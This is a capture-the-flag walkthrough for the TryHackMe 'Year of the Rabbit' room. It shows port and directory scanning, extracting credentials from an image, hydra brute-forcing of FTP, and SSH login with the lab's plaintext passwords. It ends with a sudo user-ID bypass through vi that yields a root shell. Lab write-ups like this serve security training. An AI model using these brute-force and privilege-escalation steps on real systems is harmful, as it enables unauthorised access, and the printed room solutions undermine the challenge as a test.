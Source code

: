 # [Year of the Rabbit](https://tryhackme.com/room/yearoftherabbit)

## Time to enter the warren...

# Flags

### What is the user flag?

1. Nmap scan to identify open ports and running services

```bash
nmap -sV IP
```

![SCREEN01](https://github.com/user-attachments/assets/49d36bb1-589e-4bf9-b95f-d720b825f110)

2. Use Gobuster to discover hidden directories and files on the web server

```bash
gobuster dir -u http://IP -w /root/Tools/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,txt,js
```

![SCREEN02](https://github.com/user-attachments/assets/382f226d-a60f-4fff-8c96-a7c87f391567)

3. The CSS file `http://IP/assets/style.css` contains a hidden reference to `/sup3r_s3cr3t_fl4g.php`

4. Disable javascript in `about:config` by setting `javascript.enabled` to `false`

![SCREEN03](https://github.com/user-attachments/assets/dcfe9164-449d-42f6-bf67-e195751767b5)

5. In `http://IP/sup3r_s3cret_fl4g.php` one of the requests reveals the hidden directory `/WExYY2Cv-qU`

![SCREEN04](https://github.com/user-attachments/assets/12d807cb-ff87-4bad-86dd-e71a95c3a55f)

6. Navigate to `http://IP/WExYY2Cv-qU/` and download the `Hot_Babe.png` image

7. Use the `strings` command to extract login and passwords from the image file

```bash
strings Hot_Babe.png
```

![SCREEN05](https://github.com/user-attachments/assets/959f98c6-e973-4973-a2ae-02ae8d878f5e)

8. Brute force the FTP service with the discovered username
   - The credentials are `ftpuser:5iez1wGXKfPKQ`

```bash
hydra -l ftpuser -P passwords.txt ftp://IP
```

![SCREEN06](https://github.com/user-attachments/assets/1b0bba24-8ed9-4f9b-9492-d2f8c8d8ae8d)

9. Connect to the FTP server and get `Eli's_Creds.txt`

```bash
ftp IP
ls -la
get Eli's_Creds.txt
```

10. Decode the text in [dCode](https://www.dcode.fr/brainfuck-language)
    - The credentials are: `eli:DSpDiM1wAEwid`

![SCREEN07](https://github.com/user-attachments/assets/b36cd3a9-9922-4c7e-9db1-dbb0257732ff)

11. Connect via SSH using the decoded credentials. Search for files containing "s3cr3t", and retrieve the user flag

```bash
ssh eli@IP
find / -name "*s3cr3t*" 2>/dev/null
ls -la /usr/games/s3cr3t/
cat /usr/games/s3cr3t/.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly\!
su gwendoline
# Password: MniVCQVhQHUNI
cat /home/gwendoline/user.txt
```

![SCREEN08](https://github.com/user-attachments/assets/4ed5ebe4-4173-4d1e-809a-1acd3969d989)

---

### What is the root flag?

1. Check what sudo privileges the current user has

```bash
sudo -l
```

![SCREEN09](https://github.com/user-attachments/assets/63eedd6e-b22a-40ca-9543-a1126db72f32)

2. Exploit vi to get root access, and get the root flag

```bash
sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
:!/bin/bash # in vi
cat /root/root.txt
```

![SCREEN10](https://github.com/user-attachments/assets/3360d0ea-fa38-4476-90d0-7f6d56cc595b)
